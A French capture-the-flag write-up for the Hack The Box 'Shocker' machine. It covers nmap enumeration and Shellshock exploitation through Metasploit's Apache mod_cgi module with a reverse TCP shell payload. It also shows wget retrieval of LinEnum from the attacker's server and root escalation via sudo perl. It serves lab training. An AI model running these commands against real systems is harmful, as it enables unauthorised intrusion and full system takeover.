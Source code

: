 # Shocker [Linux] Easy

[https://app.hackthebox.com/machines/Shocker](https://app.hackthebox.com/machines/Shocker)

# **— 1. Enumeration —**

## Nmap

`nmap -sT -sV 10.10.10.56`

```python
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2022-04-07 16:48 EDT
Nmap scan report for 10.10.10.56
Host is up (0.011s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                          Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 7.40 seconds
```

## Ffuf

Avec ffuf on trouve un dossier étrange qui est en rapport avec la faille shellshock à cause du dossier /cgi-bin/ avec un script dedans :

[https://www.yeahhub.com/shellshock-vulnerability-exploitation-metasploit-framework/](https://www.yeahhub.com/shellshock-vulnerability-exploitation-metasploit-framework/)

Nous allons donc utiliser Metasploit.

# — 2.Exploit —

Comme dans l’article link dans le numéro 1 nous pouvons utiliser l’exploit  :

use ***exploit/multi/http/apache_mod_cgi_bash_env_exec***

Metasploit :

---

```bash
msf6 > search shellshock

0   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Yes    Advantech Switch Bash Environment Variable Code Injection (Shellshock)
1   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
3   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  Yes    CUPS Filter Bash Environment Variable Code Injection (Shellshock)
6   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  Yes    IPFire Bash Environment Variable Injection (Shellshock)

Le 1 This module exploits the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. This module targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition.

- Exploitation avec Metasploit-

use multi/http/apache_mod_cgi_bash_env_exec

msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 10.10.10.56
RHOSTS => 10.10.10.56
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/user.sh
TARGETURI => /cgi-bin/user.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST 10.10.14.16
LHOST => 10.10.14.16
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > check
[+] 10.10.10.56:80 - The target is vulnerable.

meterpreter > exploit -j
```

# **— 3. PrivEsc Avec LinEnum—**

Créé un Serveur Python avec : `python -m http.server 8080`

[https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

Sur la machine ou nous avons le shell : wget [http://notre](http://notre/) ip:8080/linEnum.sh

On à en retour du script que nous avons une permission sudo sur perl

Sinon taper `sudo -l` et avoir cette même info.

[https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)

`sudo perl -e 'exec "/bin/sh";'`

On est root nous avons accès au flag !